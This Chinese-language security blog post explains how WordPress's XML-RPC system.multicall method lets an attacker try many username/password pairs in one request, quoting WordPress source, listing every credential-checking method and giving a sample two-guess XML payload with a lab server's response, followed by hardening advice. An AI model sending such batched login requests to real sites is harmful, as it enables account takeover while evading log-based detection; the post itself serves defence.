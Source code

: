 ```yaml
---
layout: post
title: "WordPress 利用XMLRPC高效爆破 原理分析"
tags: [web, security]
---
```


xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了如何利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，极大的压缩请求次数，在一定程度上能够躲避日志的检测。

### 一、原理分析

WordPress 中关于 xmlrpc 服务的定义代码主要位于 `wp-includes/class-IXR.php` 和 `wp-includes/class-wp-xmlrpc-server.php` 中。基类 IXR_Server 中定义了三个内置的调用方法，分别为 `system.getCapabilities`，`system.listMethods` 和 `system.multicall`，其调用映射位于 `IXR_Server` 基类定义中：

{% highlight php %}
function setCallbacks()
{
    $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this->callbacks['system.listMethods'] = 'this:listMethods';
    $this->callbacks['system.multicall'] = 'this:multiCall';
}
{% endhighlight %}

而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：

{% highlight php %}
function __construct( $callbacks = false, $data = false, $wait = false )
{
    $this->setCapabilities();
    if ($callbacks) {
        $this->callbacks = $callbacks;
    }
    $this->setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) {
        $this->serve($data);
    }
}
{% endhighlight %}

再来看看 `system.multicall` 对应的处理函数：

{% highlight php %}
function multiCall($methodcalls)
{
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) {
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') {
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        } else {
            $result = $this->call($method, $params);
        }
        if (is_a($result, 'IXR_Error')) {
            $return[] = array(
                'faultCode' => $result->code,
                'faultString' => $result->message
            );
        } else {
            $return[] = array($result);
        }
    }
    return $return;
}
{% endhighlight %}

可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。

通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：

{% highlight php %}
    if ( !$user = $this->login($username, $password) )
        return $this->error;
{% endhighlight %}

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下： 

    wp.getUsersBlogs, wp.newPost, wp.editPost, wp.deletePost, wp.getPost, wp.getPosts, wp.newTerm, wp.editTerm, wp.deleteTerm, wp.getTerm, wp.getTerms, wp.getTaxonomy, wp.getTaxonomies, wp.getUser, wp.getUsers, wp.getProfile, wp.editProfile, wp.getPage, wp.getPages, wp.newPage, wp.deletePage, wp.editPage, wp.getPageList, wp.getAuthors, wp.getTags, wp.newCategory, wp.deleteCategory, wp.suggestCategories, wp.getComment, wp.getComments, wp.deleteComment, wp.editComment, wp.newComment, wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, wp.getPostFormats, wp.getPostType, wp.getPostTypes, wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, blogger.newPost, blogger.editPost, blogger.deletePost, mw.newPost, mw.editPost, mw.getPost, mw.getRecentPosts, mw.getCategories, mw.newMediaObject, mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
    
这里是用参数传递最少获取信息最直接的 `wp.getUsersBlogs` 进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：

{% highlight xml %}
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param>
    <value><array><data>
      <value><struct>
        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
        <member><name>params</name><value><array><data>
          <value><string>admin</string></value>
          <value><string>admin888</string></value>
        </data></array></value></member>
      </struct></value>
      
      <value><struct>
        <member><name>methodName</name><value><string>wp.getUsersBlogs</string></value></member>
        <member><name>params</name><value><array><data>
          <value><string>guest</string></value>
          <value><string>test</string></value>
        </data></array></value></member>
      </struct></value>
    </data></array></value>
  </param></params>
</methodCall>
{% endhighlight %}

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><array><data>
  <value><array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>WordPress 4.3.1</string></value></member>
  <member><name>xmlrpc</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php</string></value></member>
</struct></value>
</data></array></value>
</data></array></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>用户名或密码不正确。</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
{% endhighlight %}

从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。

### 二、防护建议

最新版 WordPress(4.3.1) 中仍存在该问题。多重调用（multicall）属于 xmlrpc 的标准，为了防止攻击者利用此点对网站发起爆破攻击，给出以下防护建议：

1. 通过配置 Apache、Nginx 等 Web 服务器来限制 xmlrpc.php 文件的访问;
2. 在不影响站点运行的情况下可以直接删除 xmlrpc.php 文件;
3. 从官方插件库中安装 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/) 并启用;
4. 添加代码 `add_filter('xmlrpc_enabled', '__return_false');` 至 WordPress 配置文件 `wp-config.php`;

### 参考链接

* [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)
* [https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/](https://pop.co/blog/protecting-your-wordpress-blog-from-xmlrpc-brute-force-amplification-attacks/)
* [http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html](http://www.deluxeblogtips.com/2013/08/disable-xml-rpc-wordpress.html)
